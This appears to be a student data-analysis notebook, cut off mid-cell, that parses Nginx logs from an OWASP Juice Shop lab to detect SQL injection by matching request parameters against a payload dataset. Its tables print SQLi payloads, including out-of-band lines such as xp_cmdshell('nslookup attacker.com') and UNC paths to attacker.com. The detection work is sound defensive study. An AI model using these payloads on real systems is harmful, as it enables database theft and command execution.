# Projeto: LogsSQLi

**Disciplina:** Análise de Dados  

**Instituição:** Faculdade Engenheiro Salvador Arena

**Data:** 10 de Abril de 2026 | **Versão:** 1.1  

---

### Descrição Executiva

Este notebook consolida as etapas de **Engenharia de Dados (M1)** e **Análise Exploratória de Dados (M2)** do projeto **LogsSQLi**, cujo foco é a análise de requisições HTTP registradas em logs do servidor **Nginx** associado à aplicação vulnerável [OWASP Juice Shop](https://owasp.org/www-project-juice-shop/). O objetivo central é estruturar um pipeline analítico capaz de transformar dados brutos de tráfego web em informações úteis para identificação de padrões relacionados a **SQL Injection (SQLi)**.

Na etapa de engenharia de dados, o pipeline realiza a leitura automatizada dos logs, a padronização dos campos, a extração de atributos derivados da requisição HTTP, a expansão de parâmetros presentes na query string e a construção de bases intermediárias e finais organizadas em camadas de dados. Além disso, o processo integra uma dimensão de payloads de referência, utilizada como apoio para comparação com os valores observados no tráfego analisado.

Na etapa de análise exploratória, o notebook aplica estatística descritiva, análise univariada e multivariada, identificação de outliers, correlação entre variáveis e visualizações explicativas para compreender o comportamento dos dados. Também são comparadas diferentes estratégias de detecção de SQLi, incluindo **correspondência exata**, **correspondência por contenção** e **heurísticas baseadas em assinaturas textuais**, permitindo avaliar o potencial analítico da base para as próximas fases do projeto.

Como resultado, este notebook estabelece uma base estruturada, documentada e persistida para suportar as etapas futuras de modelagem, cujo objetivo será classificar requisições em categorias como **não SQLi**, **SQLi** e, posteriormente, **tipo de SQLi**.

---

### Equipe

* **Integrante 1:** Victor Flohr Costa Bicudo Larrubia - 082210026

* **Integrante 2:** Vitor Dié dos Santos Pereira - 082210023

* **Integrante 3:** Beatriz de Sá Silva - 081210011

* **Integrante 4:** Bruno Hector Wüsthofen - 082210013

---

### Stack Tecnológica

* **Linguagem:** Python 3.x
* **Ambiente de desenvolvimento e execução:** Google Colab
* **Armazenamento:** Google Drive
* **Fonte de dados:** Logs HTTP do Nginx e dataset de payloads SQLi
* **Aplicação de origem do tráfego:** OWASP Juice Shop executado em contêiner
* **Servidor Web:** Nginx
* **Arquitetura analítica:** Estrutura em camadas (`raw` e `processed`) com organização orientada à análise e apoio a modelagem dimensional

---

### Bibliotecas Utilizadas

* **pandas:** manipulação, transformação e análise tabular dos dados
* **numpy:** operações numéricas e criação de variáveis derivadas
* **re:** aplicação de expressões regulares para parsing e detecção de padrões
* **html:** decodificação de entidades HTML presentes nos payloads
* **base64:** tentativa controlada de decodificação de cargas ofuscadas
* **binascii:** tratamento de exceções associadas à decodificação em Base64
* **urllib.parse:** decodificação de parâmetros HTTP codificados em URL
* **matplotlib:** geração de gráficos estatísticos e exploratórios
* **pathlib:** manipulação de caminhos e persistência de arquivos

---

### Estrutura de Diretórios (Drive)

    LogsSQLi/
    └── data/
        ├── raw/   (Dados originais sem modificação)
        └── processed/   (Tabelas Fato e Dimensão prontas para uso)

### 1. Contexto do projeto

### Fluxo do Pipeline Analítico

O projeto **LogsSQLi** está organizado em um fluxo contínuo que integra **Engenharia de Dados (ETL)** e **Análise Exploratória (EDA)**. Esse encadeamento garante rastreabilidade entre os dados brutos de tráfego HTTP, as bases processadas e os artefatos finais de classificação.

#### Fluxo do `run_pipeline.sh`

1. converter `logs/access.log` em `data/raw/access_log_structured.csv`;
2. garantir a disponibilidade de `payloads_dataset.csv` em `data/raw`;
3. sincronizar `data/raw` com `gdrive_logsqli:LogsSQLi/data/raw`.

#### Fluxo integrado do projeto

Após a execução do pipeline inicial, o projeto segue as seguintes etapas analíticas:

1. **ETL (M1)**  
   Leitura dos logs estruturados e do dataset de payloads, padronização dos campos, extração de atributos derivados da requisição HTTP, expansão dos parâmetros da query string, decodificação dos valores observados e persistência das bases tratadas em `data/processed`.

2. **EDA (M2)**  
   Análise estatística e exploratória das bases processadas, com avaliação de distribuições, medidas descritivas, correlações, outliers e estratégias iniciais de detecção de SQL Injection por correspondência exata, contenção e heurísticas textuais.

### 2. Configuração do ambiente

In [1]:
from pathlib import Path
from google.colab import drive
from urllib.parse import urlparse, parse_qsl, unquote
import pandas as pd
import string
import html
import re
import base64
import binascii
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns

In [2]:
drive.mount('/content/drive')
base_dir = Path("/content/drive/MyDrive/LogsSQLi")
data_dir = base_dir / "data"
raw_dir = data_dir / "raw"
processed_dir = data_dir / "processed"

Mounted at /content/drive


### 3. Validação da estrutura

In [4]:
print("Base:", base_dir)
print("Raw:", raw_dir)
print("Processed:", processed_dir)

print("\nArquivos em raw:")
for p in sorted(raw_dir.iterdir()):
    print("-", p.name, "|", p.stat().st_size, "bytes")

Base: /content/drive/MyDrive/LogsSQLi
Raw: /content/drive/MyDrive/LogsSQLi/data/raw
Processed: /content/drive/MyDrive/LogsSQLi/data/processed

Arquivos em raw:
- access_log_structured (1).gsheet | 181 bytes
- access_log_structured.csv | 5968181 bytes
- access_log_structured.gsheet | 181 bytes
- payloads_dataset.csv | 228043 bytes


### 4. Carga dos dados

In [5]:
df_logs = pd.read_csv(raw_dir / "access_log_structured.csv")
df_payloads = pd.read_csv(raw_dir / "payloads_dataset.csv")

### 5. Exploração inicial

In [6]:
print("df_logs shape:", df_logs.shape)
print("df_payloads shape:", df_payloads.shape)

print("\nColunas df_logs:")
print(df_logs.columns.tolist())

print("\nColunas df_payloads:")
print(df_payloads.columns.tolist())

display(df_logs.head(3))
display(df_payloads.head(3))

df_logs shape: (7865, 9)
df_payloads shape: (3640, 2)

Colunas df_logs:
['remote_addr', 'remote_user', 'time_local', 'request', 'status', 'body_bytes_sent', 'http_referer', 'http_user_agent', 'request_time']

Colunas df_payloads:
['Payload', 'Tipo']


,remote_addr,remote_user,time_local,request,status,body_bytes_sent,http_referer,http_user_agent,request_time
0,172.18.0.1,-,25/Feb/2026:18:53:41 +0000,GET /rest/products/search?q=test HTTP/1.1,200,517,http://localhost/rest/products/search,Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1...,0.014
1,172.18.0.1,-,25/Feb/2026:18:53:41 +0000,GET /rest/products/search?q=test&SLHJ=1989%20A...,200,517,http://localhost/rest/products/search,Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1...,0.011
2,172.18.0.1,-,25/Feb/2026:18:53:41 +0000,GET /rest/products/search?q=test HTTP/1.1,200,517,http://localhost/rest/products/search,Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1...,0.021


,Payload,Tipo
0,' AND '1'='1,Boolean_Based
1,' AND '1'='2,Boolean_Based
2,' OR '1'='1,Boolean_Based


### 6. Padronização inicial e criação de variáveis analíticas

In [7]:
# cópias de trabalho
df_logs = df_logs.copy()
df_payloads = df_payloads.copy()

# manter status como categórico/string
df_logs["status"] = df_logs["status"].astype(str).str.strip()

# variáveis numéricas necessárias para estatística/correlação
df_logs["body_bytes_sent"] = pd.to_numeric(df_logs["body_bytes_sent"], errors="coerce")
df_logs["request_time"] = pd.to_numeric(df_logs["request_time"], errors="coerce")

# variável binária de sucesso da requisição
df_logs["request_success"] = pd.Series(
    np.where(df_logs["status"] == "200", 1, 0),
    index=df_logs.index,
    dtype="Int64"
)

# identificador único do log para rastreabilidade
df_logs["log_id"] = np.arange(1, len(df_logs) + 1, dtype=np.int64)

# limpeza mínima da dimensão
df_payloads.columns = df_payloads.columns.str.strip()
df_payloads["Payload"] = df_payloads["Payload"].astype(str)
df_payloads["Tipo"] = df_payloads["Tipo"].astype(str)

print("Tipos em df_logs:")
print(df_logs.dtypes)

print("\nDistribuição de status:")
print(df_logs["status"].value_counts(dropna=False))

print("\nDistribuição de request_success:")
print(df_logs["request_success"].value_counts(dropna=False).sort_index())

print("\nPrévia df_logs:")
display(df_logs.head(3))

print("\nPrévia df_payloads:")
display(df_payloads.head(3))

Tipos em df_logs:
remote_addr         object
remote_user         object
time_local          object
request             object
status              object
body_bytes_sent      int64
http_referer        object
http_user_agent     object
request_time       float64
request_success      Int64
log_id               int64
dtype: object

Distribuição de status:
status
401    4234
200    3631
Name: count, dtype: int64

Distribuição de request_success:
request_success
0    4234
1    3631
Name: count, dtype: Int64

Prévia df_logs:


,remote_addr,remote_user,time_local,request,status,body_bytes_sent,http_referer,http_user_agent,request_time,request_success,log_id
0,172.18.0.1,-,25/Feb/2026:18:53:41 +0000,GET /rest/products/search?q=test HTTP/1.1,200,517,http://localhost/rest/products/search,Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1...,0.014,1,1
1,172.18.0.1,-,25/Feb/2026:18:53:41 +0000,GET /rest/products/search?q=test&SLHJ=1989%20A...,200,517,http://localhost/rest/products/search,Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1...,0.011,1,2
2,172.18.0.1,-,25/Feb/2026:18:53:41 +0000,GET /rest/products/search?q=test HTTP/1.1,200,517,http://localhost/rest/products/search,Mozilla/5.0 (X11; U; Linux x86_64; en-US; rv:1...,0.021,1,3



Prévia df_payloads:


,Payload,Tipo
0,' AND '1'='1,Boolean_Based
1,' AND '1'='2,Boolean_Based
2,' OR '1'='1,Boolean_Based


### 7. Estruturação do request HTTP e derivação de atributos do request

In [8]:
df_logs = df_logs.copy()

# extração da estrutura básica do request:
# exemplo: GET /rest/products/search?q=test HTTP/1.1
request_parts = df_logs["request"].str.extract(
    r'^(?P<http_method>\S+)\s+(?P<url_full>\S+)\s+(?P<http_protocol>\S+)$'
)

df_logs = pd.concat([df_logs, request_parts], axis=1)

# separação entre caminho e query string
df_logs["url_full"] = df_logs["url_full"].astype("string")
df_logs["url_path"] = df_logs["url_full"].str.split("?", n=1).str[0]
df_logs["query_string"] = df_logs["url_full"].str.split("?", n=1).str[1]

# variáveis derivadas
df_logs["has_query_string"] = df_logs["query_string"].notna().astype("Int64")
df_logs["request_length"] = df_logs["request"].astype(str).str.len()
df_logs["path_length"] = df_logs["url_path"].astype(str).str.len()
df_logs["query_string_length"] = df_logs["query_string"].fillna("").astype(str).str.len()

print("Shape de df_logs:", df_logs.shape)

print("\nColunas adicionadas:")
print([
    "http_method",
    "url_full",
    "url_path",
    "query_string",
    "http_protocol",
    "has_query_string",
    "request_length",
    "path_length",
    "query_string_length"
])

print("\nValores ausentes nas colunas extraídas:")
print(df_logs[["http_method", "url_full", "url_path", "query_string", "http_protocol"]].isna().sum())

print("\nDistribuição de has_query_string:")
print(df_logs["has_query_string"].value_counts(dropna=False).sort_index())

print("\nPrévia das colunas derivadas:")
display(
    df_logs[
        [
            "log_id",
            "request",
            "http_method",
            "url_full",
            "url_path",
            "query_string",
            "http_protocol",
            "has_query_string",
            "request_length",
            "path_length",
            "query_string_length"
        ]
    ].head(5)
)

Shape de df_logs: (7865, 20)

Colunas adicionadas:
['http_method', 'url_full', 'url_path', 'query_string', 'http_protocol', 'has_query_string', 'request_length', 'path_length', 'query_string_length']

Valores ausentes nas colunas extraídas:
http_method         0
url_full            0
url_path            0
query_string     4239
http_protocol       0
dtype: int64

Distribuição de has_query_string:
has_query_string
0    4239
1    3626
Name: count, dtype: Int64

Prévia das colunas derivadas:


,log_id,request,http_method,url_full,url_path,query_string,http_protocol,has_query_string,request_length,path_length,query_string_length
0,1,GET /rest/products/search?q=test HTTP/1.1,GET,/rest/products/search?q=test,/rest/products/search,q=test,HTTP/1.1,1,41,21,6
1,2,GET /rest/products/search?q=test&SLHJ=1989%20A...,GET,/rest/products/search?q=test&SLHJ=1989%20AND%2...,/rest/products/search,q=test&SLHJ=1989%20AND%201%3D1%20UNION%20ALL%2...,HTTP/1.1,1,305,21,270
2,3,GET /rest/products/search?q=test HTTP/1.1,GET,/rest/products/search?q=test,/rest/products/search,q=test,HTTP/1.1,1,41,21,6
3,4,GET /rest/products/search?q=%25%4E%25%6A%25%59...,GET,/rest/products/search?q=%25%4E%25%6A%25%59%25%...,/rest/products/search,q=%25%4E%25%6A%25%59%25%34%25%4E%25%77%25%3D%2...,HTTP/1.1,1,85,21,50
4,5,GET /rest/products/search?q=%25%64%25%47%25%56...,GET,/rest/products/search?q=%25%64%25%47%25%56%25%...,/rest/products/search,q=%25%64%25%47%25%56%25%7A%25%64%25%43%25%77%2...,HTTP/1.1,1,157,21,122


### 8. Extração dos parâmetros HTTP e construção da tabela fato em nível de parâmetro

In [9]:
rows = []

colunas_base = [
    "log_id",
    "time_local",
    "status",
    "request_success",
    "request_time",
    "body_bytes_sent",
    "http_method",
    "url_path",
    "query_string"
]

for row in df_logs[colunas_base].itertuples(index=False):
    query_string = row.query_string

    if pd.isna(query_string) or str(query_string).strip() == "":
        continue

    partes = str(query_string).split("&")

    for param_position, parte in enumerate(partes, start=1):
        param_name, sep, param_value = parte.partition("=")

        rows.append({
            "log_id": row.log_id,
            "time_local": row.time_local,
            "status": row.status,
            "request_success": row.request_success,
            "request_time": row.request_time,
            "body_bytes_sent": row.body_bytes_sent,
            "http_method": row.http_method,
            "url_path": row.url_path,
            "query_string": row.query_string,
            "param_position": param_position,
            "param_raw": parte,
            "param_name_raw": param_name,
            "param_value_raw": param_value if sep else "",
            "has_equals_sign": 1 if sep else 0
        })

df_params = pd.DataFrame(rows)

print("Shape de df_params:", df_params.shape)

print("\nColunas de df_params:")
print(df_params.columns.tolist())

print("\nQuantidade de parâmetros por log (amostra):")
display(
    df_params.groupby("log_id").size().reset_index(name="qtd_params").head(10)
)

print("\nPrévia de df_params:")
display(df_params.head(10))

Shape de df_params: (3627, 14)

Colunas de df_params:
['log_id', 'time_local', 'status', 'request_success', 'request_time', 'body_bytes_sent', 'http_method', 'url_path', 'query_string', 'param_position', 'param_raw', 'param_name_raw', 'param_value_raw', 'has_equals_sign']

Quantidade de parâmetros por log (amostra):


,log_id,qtd_params
0,1,1
1,2,2
2,3,1
3,4,1
4,5,1
5,6,1
6,7,1
7,8,1
8,9,1
9,10,1



Prévia de df_params:


,log_id,time_local,status,request_success,request_time,body_bytes_sent,http_method,url_path,query_string,param_position,param_raw,param_name_raw,param_value_raw,has_equals_sign
0,1,25/Feb/2026:18:53:41 +0000,200,1,0.014,517,GET,/rest/products/search,q=test,1,q=test,q,test,1
1,2,25/Feb/2026:18:53:41 +0000,200,1,0.011,517,GET,/rest/products/search,q=test&SLHJ=1989%20AND%201%3D1%20UNION%20ALL%2...,1,q=test,q,test,1
2,2,25/Feb/2026:18:53:41 +0000,200,1,0.011,517,GET,/rest/products/search,q=test&SLHJ=1989%20AND%201%3D1%20UNION%20ALL%2...,2,SLHJ=1989%20AND%201%3D1%20UNION%20ALL%20SELECT...,SLHJ,1989%20AND%201%3D1%20UNION%20ALL%20SELECT%201%...,1
3,3,25/Feb/2026:18:53:41 +0000,200,1,0.021,517,GET,/rest/products/search,q=test,1,q=test,q,test,1
4,4,25/Feb/2026:18:53:41 +0000,200,1,0.017,30,GET,/rest/products/search,q=%25%4E%25%6A%25%59%25%34%25%4E%25%77%25%3D%2...,1,q=%25%4E%25%6A%25%59%25%34%25%4E%25%77%25%3D%2...,q,%25%4E%25%6A%25%59%25%34%25%4E%25%77%25%3D%25%3D,1
5,5,25/Feb/2026:18:53:41 +0000,200,1,0.010,30,GET,/rest/products/search,q=%25%64%25%47%25%56%25%7A%25%64%25%43%25%77%2...,1,q=%25%64%25%47%25%56%25%7A%25%64%25%43%25%77%2...,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%77%25%...,1
6,6,25/Feb/2026:18:53:41 +0000,200,1,0.011,30,GET,/rest/products/search,q=%25%64%25%47%25%56%25%7A%25%64%25%43%25%64%2...,1,q=%25%64%25%47%25%56%25%7A%25%64%25%43%25%64%2...,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%64%25%...,1
7,7,25/Feb/2026:18:53:41 +0000,200,1,0.010,30,GET,/rest/products/search,q=%25%64%25%47%25%56%25%7A%25%64%25%41%25%3D%2...,1,q=%25%64%25%47%25%56%25%7A%25%64%25%41%25%3D%2...,q,%25%64%25%47%25%56%25%7A%25%64%25%41%25%3D%25%3D,1
8,8,25/Feb/2026:18:53:41 +0000,200,1,0.011,30,GET,/rest/products/search,q=%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%2...,1,q=%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%2...,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,1
9,9,25/Feb/2026:18:53:41 +0000,200,1,0.011,30,GET,/rest/products/search,q=%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%2...,1,q=%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%2...,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,1


### 9. Normalização e decodificação dos valores dos parâmetros

In [10]:
df_params = df_params.copy()

def parece_base64(s):
    if s is None:
        return False

    s = str(s).strip()

    if len(s) < 8:
        return False

    if len(s) % 4 != 0:
        return False

    return bool(re.fullmatch(r"[A-Za-z0-9+/=]+", s))

def tentar_base64_decode(s):
    try:
        decoded_bytes = base64.b64decode(s, validate=True)
        decoded_text = decoded_bytes.decode("utf-8", errors="replace").strip()
        return decoded_text if decoded_text else s
    except (binascii.Error, ValueError):
        return s

def normalizar_payload_avancado(valor):
    if pd.isna(valor) or str(valor).strip() in ("", "None", "nan"):
        return None

    atual = str(valor).strip()

    # 1) URL decode + HTML unescape recursivo
    for _ in range(5):
        novo = html.unescape(unquote(atual)).strip()
        if novo == atual:
            break
        atual = novo

    # 2) padrão ofuscado com % entre caracteres, ex: %d%G%V%z...
    # remove os % antes de testar base64
    if re.fullmatch(r"(?:%?[A-Za-z0-9+/=]){6,}", atual) and "%" in atual:
        sem_percent = atual.replace("%", "")
        if sem_percent:
            atual = sem_percent

    # 3) se parecer base64, tenta decodificar
    if parece_base64(atual):
        atual = tentar_base64_decode(atual)

    # 4) aplica html unescape final
    atual = html.unescape(atual).strip()

    return atual

def normalize_text_for_match(text):
    if pd.isna(text) or text is None:
        return ""
    value = str(text)
    value = html.unescape(value)
    value = value.lower()
    value = re.sub(r"\s+", " ", value).strip()
    return value

df_params["param_value_decoded"] = df_params["param_value_raw"].apply(normalizar_payload_avancado)
df_params["param_value_match_key"] = df_params["param_value_decoded"].apply(normalize_text_for_match)

df_params["param_value_raw_length"] = df_params["param_value_raw"].astype(str).str.len()
df_params["param_value_decoded_length"] = df_params["param_value_decoded"].astype(str).str.len()
df_params["param_value_was_changed"] = (
    df_params["param_value_raw"].astype(str).fillna("") !=
    df_params["param_value_decoded"].astype(str).fillna("")
).astype("Int64")

print("Shape de df_params:", df_params.shape)

print("\nQuantidade de linhas alteradas pela decodificação:")
print(df_params["param_value_was_changed"].value_counts(dropna=False).sort_index())

print("\nQuantidade de chaves distintas em df_params:")
print(df_params["param_value_match_key"].nunique())

print("\nPrévia da normalização em df_params:")
display(
    df_params[
        [
            "log_id",
            "param_name_raw",
            "param_value_raw",
            "param_value_decoded",
            "param_value_match_key",
            "param_value_raw_length",
            "param_value_decoded_length",
            "param_value_was_changed"
        ]
    ].head(20)
)

print("\nExemplos em que houve mudança após a normalização:")
display(
    df_params[
        df_params["param_value_raw"].astype(str).fillna("") !=
        df_params["param_value_decoded"].astype(str).fillna("")
    ][
        [
            "log_id",
            "param_name_raw",
            "param_value_raw",
            "param_value_decoded",
            "param_value_match_key"
        ]
    ].head(20)
)

Shape de df_params: (3627, 19)

Quantidade de linhas alteradas pela decodificação:
param_value_was_changed
0    2541
1    1086
Name: count, dtype: Int64

Quantidade de chaves distintas em df_params:
1086

Prévia da normalização em df_params:


,log_id,param_name_raw,param_value_raw,param_value_decoded,param_value_match_key,param_value_raw_length,param_value_decoded_length,param_value_was_changed
0,1,q,test,test,test,4,4,0
1,2,q,test,test,test,4,4,0
2,2,SLHJ,1989%20AND%201%3D1%20UNION%20ALL%20SELECT%201%...,"1989 AND 1=1 UNION ALL SELECT 1,NULL,'<script>...","1989 and 1=1 union all select 1,null,'<script>...",258,172,1
3,3,q,test,test,test,4,4,0
4,4,q,%25%4E%25%6A%25%59%25%34%25%4E%25%77%25%3D%25%3D,6687,6687,48,4,1
5,5,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%77%25%...,"test,)(')"".)((","test,)(')"".)((",120,14,1
6,6,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%64%25%...,"test'icThMp<'"">IrYqwB","test'icthmp<'"">iryqwb",168,21,1
7,7,q,%25%64%25%47%25%56%25%7A%25%64%25%41%25%3D%25%3D,test,test,48,4,1
8,8,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 6861 bETween 4608 anD ...,test') and 6861 between 4608 and 4608-- zavp,480,58,1
9,9,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') aND 6947 BetweEn 6947 aND ...,test') and 6947 between 6947 and 6947-- jrgn,480,58,1



Exemplos em que houve mudança após a normalização:


,log_id,param_name_raw,param_value_raw,param_value_decoded,param_value_match_key
2,2,SLHJ,1989%20AND%201%3D1%20UNION%20ALL%20SELECT%201%...,"1989 AND 1=1 UNION ALL SELECT 1,NULL,'<script>...","1989 and 1=1 union all select 1,null,'<script>..."
4,4,q,%25%4E%25%6A%25%59%25%34%25%4E%25%77%25%3D%25%3D,6687,6687
5,5,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%77%25%...,"test,)(')"".)((","test,)(')"".)(("
6,6,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%64%25%...,"test'icThMp<'"">IrYqwB","test'icthmp<'"">iryqwb"
7,7,q,%25%64%25%47%25%56%25%7A%25%64%25%41%25%3D%25%3D,test,test
8,8,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') anD 6861 bETween 4608 anD ...,test') and 6861 between 4608 and 4608-- zavp
9,9,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test') aND 6947 BetweEn 6947 aND ...,test') and 6947 between 6947 and 6947-- jrgn
10,10,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test' And 9212 BEtWEen 6425 And ...,test' and 9212 between 6425 and 6425-- tgok
11,11,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%63%25%...,test' aND 6947 beTWEEN 6947 aND 69...,test' and 6947 between 6947 and 6947-- yoep
12,12,q,%25%64%25%47%25%56%25%7A%25%64%25%43%25%49%25%...,"test"" AnD 7760 betWeEn 1158 AnD 1...","test"" and 7760 between 1158 and 1158-- umxh"


### 10. Padronização da dimensão de payloads

In [11]:
df_payloads = df_payloads.copy()

# limpeza mínima das colunas
df_payloads.columns = df_payloads.columns.str.strip()
df_payloads["Payload"] = df_payloads["Payload"].astype(str).str.strip()
df_payloads["Tipo"] = df_payloads["Tipo"].astype(str).str.strip()

def normalize_payload_dimension(text):
    if pd.isna(text) or text is None:
        return ""
    value = str(text)
    value = html.unescape(value)
    value = value.lower()
    value = re.sub(r"\s+", " ", value).strip()
    return value

df_payloads["payload_match_key"] = df_payloads["Payload"].apply(normalize_payload_dimension)

print("Shape de df_payloads:", df_payloads.shape)

print("\nQuantidade de chaves distintas em df_payloads:")
print(df_payloads["payload_match_key"].nunique())

print("\nDistribuição dos tipos de payload na dimensão:")
print(df_payloads["Tipo"].value_counts())

print("\nPrévia da padronização em df_payloads:")
display(
    df_payloads[
        [
            "Payload",
            "payload_match_key",
            "Tipo"
        ]
    ].head(15)
)

Shape de df_payloads: (3640, 3)

Quantidade de chaves distintas em df_payloads:
177

Distribuição dos tipos de payload na dimensão:
Tipo
Error_Based         320
Union_Based         320
Comment_Based       300
Boolean_Based       300
DNS_Exfiltration    300
Hybrid              300
Second_Order        300
OOB                 300
Stacked_Queries     300
Stored_Procedure    300
Time_Based          300
WAF_Bypass          300
Name: count, dtype: int64

Prévia da padronização em df_payloads:


,Payload,payload_match_key,Tipo
0,' AND '1'='1,' and '1'='1,Boolean_Based
1,' AND '1'='2,' and '1'='2,Boolean_Based
2,' OR '1'='1,' or '1'='1,Boolean_Based
3,' OR '1'='2,' or '1'='2,Boolean_Based
4,' AND 1=1,' and 1=1,Boolean_Based
5,' AND 1=2,' and 1=2,Boolean_Based
6,' OR 1=1,' or 1=1,Boolean_Based
7,' OR 1=2,' or 1=2,Boolean_Based
8,' AND (SELECT COUNT(*) FROM users)>0,' and (select count(*) from users)>0,Boolean_Based
9,' AND (SELECT COUNT(*) FROM information_schema...,' and (select count(*) from information_schema...,Boolean_Based


### 11. Consolidação da dimensão de payloads para correspondência exata

In [12]:
df_payload_dim = (
    df_payloads
    .groupby("payload_match_key", dropna=False)
    .agg(
        payload_example=("Payload", "first"),
        qtd_payloads_origem=("Payload", "size"),
        qtd_tipos_distintos=("Tipo", "nunique"),
        tipos_encontrados=("Tipo", lambda x: sorted(set(x)))
    )
    .reset_index()
)

df_payload_dim["tipo_match_exato"] = df_payload_dim["tipos_encontrados"].apply(
    lambda x: x[0] if len(x) == 1 else "Ambiguous"
)

print("Shape de df_payload_dim:", df_payload_dim.shape)

print("\nDistribuição de quantidade de tipos distintos por chave:")
print(df_payload_dim["qtd_tipos_distintos"].value_counts().sort_index())

print("\nQuantidade de chaves ambíguas:")
print((df_payload_dim["tipo_match_exato"] == "Ambiguous").sum())

print("\nPrévia da dimensão consolidada:")
display(df_payload_dim.head(10))

print("\nExemplos de chaves ambíguas:")
display(df_payload_dim[df_payload_dim["tipo_match_exato"] == "Ambiguous"].head(10))

Shape de df_payload_dim: (177, 6)

Distribuição de quantidade de tipos distintos por chave:
qtd_tipos_distintos
1    167
2     10
Name: count, dtype: int64

Quantidade de chaves ambíguas:
10

Prévia da dimensão consolidada:


,payload_match_key,payload_example,qtd_payloads_origem,qtd_tipos_distintos,tipos_encontrados,tipo_match_exato
0,' and '1'='1,' AND '1'='1,40,2,"[Boolean_Based, Error_Based]",Ambiguous
1,' and '1'='1' #,' AND '1'='1' #,15,1,[Comment_Based],Comment_Based
2,' and '1'='1' --,' AND '1'='1' --,15,1,[Comment_Based],Comment_Based
3,' and '1'='1' /*,' AND '1'='1' /*,15,1,[Comment_Based],Comment_Based
4,' and '1'='2,' AND '1'='2,20,1,[Boolean_Based],Boolean_Based
5,' and (select 1 from dual) is not null,' AND (SELECT 1 FROM dual) IS NOT NULL,20,1,[Boolean_Based],Boolean_Based
6,' and (select count(*) from information_schema...,' AND (SELECT COUNT(*) FROM information_schema...,20,1,[Boolean_Based],Boolean_Based
7,' and (select count(*) from information_schema...,' AND (SELECT COUNT(*) FROM information_schema...,20,1,[Boolean_Based],Boolean_Based
8,' and (select count(*) from users)>0,' AND (SELECT COUNT(*) FROM users)>0,20,1,[Boolean_Based],Boolean_Based
9,"' and (select extractvalue(null, concat(0x5c5c...","' AND (SELECT EXTRACTVALUE(NULL, CONCAT(0x5c5c...",20,1,[OOB],OOB



Exemplos de chaves ambíguas:


,payload_match_key,payload_example,qtd_payloads_origem,qtd_tipos_distintos,tipos_encontrados,tipo_match_exato
0,' and '1'='1,' AND '1'='1,40,2,"[Boolean_Based, Error_Based]",Ambiguous
46,' or '1'='1,' OR '1'='1,40,2,"[Boolean_Based, Error_Based]",Ambiguous
75,"' union select 1,2 from users where username='...","' UNION SELECT 1,2 FROM users WHERE username='...",40,2,"[DNS_Exfiltration, Hybrid]",Ambiguous
89,"' union select if(1=1,load_file('\\attacker.co...","' UNION SELECT IF(1=1,LOAD_FILE('\\attacker.co...",40,2,"[DNS_Exfiltration, Hybrid]",Ambiguous
95,"' union select null, null, null--","' UNION SELECT null, null, null--",40,2,"[Error_Based, Union_Based]",Ambiguous
97,"' union select null, null--","' UNION SELECT null, null--",40,2,"[Error_Based, Union_Based]",Ambiguous
110,"' union select username, password from users--","' UNION SELECT username, password FROM users--",40,2,"[Error_Based, Union_Based]",Ambiguous
120,'; declare @cmd nvarchar(4000); set @cmd='nslo...,'; DECLARE @cmd NVARCHAR(4000); SET @cmd='nslo...,40,2,"[DNS_Exfiltration, Stacked_Queries]",Ambiguous
149,'; exec xp_cmdshell('nslookup attacker.com')--,'; EXEC xp_cmdshell('nslookup attacker.com')--,40,2,"[Hybrid, Second_Order]",Ambiguous
153,'; exec xp_fileexist '\\attacker.com\check'--,'; EXEC xp_fileexist '\\attacker.com\check'--,40,2,"[DNS_Exfiltration, Hybrid]",Ambiguous


### 12. Correspondência exata entre os parâmetros do log e a dimensão de payloads

In [13]:
df_match_exato = df_params.merge(
    df_payload_dim[
        [
            "payload_match_key",
            "payload_example",
            "qtd_payloads_origem",
            "qtd_tipos_distintos",
            "tipos_encontrados",
            "tipo_match_exato"
        ]
    ],
    left_on="param_value_match_key",
    right_on="payload_match_key",
    how="left"
)

# target binário da visão por match exato
df_match_exato["target_sqli_match_exato"] = (
    df_match_exato["payload_match_key"].notna()
).astype("Int64")

# flag de ambiguidade
df_match_exato["match_exato_ambiguous"] = (
    df_match_exato["tipo_match_exato"] == "Ambiguous"
).astype("Int64")

# coluna categórica auxiliar
df_match_exato["tipo_match_exato_final"] = df_match_exato["tipo_match_exato"].fillna("No_Match")

print("Shape de df_match_exato:", df_match_exato.shape)

print("\nDistribuição do target por match exato:")
print(df_match_exato["target_sqli_match_exato"].value_counts(dropna=False).sort_index())

print("\nDistribuição de tipo na visão de match exato:")
print(df_match_exato["tipo_match_exato_final"].value_counts(dropna=False))

print("\nQuantidade de matches ambíguos:")
print(df_match_exato["match_exato_ambiguous"].value_counts(dropna=False).sort_index())

print("\nExemplos com match exato:")
display(
    df_match_exato[
        df_match_exato["target_sqli_match_exato"] == 1
    ][
        [
            "log_id",
            "param_name_raw",
            "param_value_raw",
            "param_value_decoded",
            "param_value_match_key",
            "payload_example",
            "tipo_match_exato",
            "tipo_match_exato_final",
            "match_exato_ambiguous"
        ]
    ].head(10)
)

print("\nExemplos sem match exato:")
display(
    df_match_exato[
        df_match_exato["target_sqli_match_exato"] == 0
    ][
        [
            "log_id",
            "param_name_raw",
            "param_value_raw",
            "param_value_decoded",
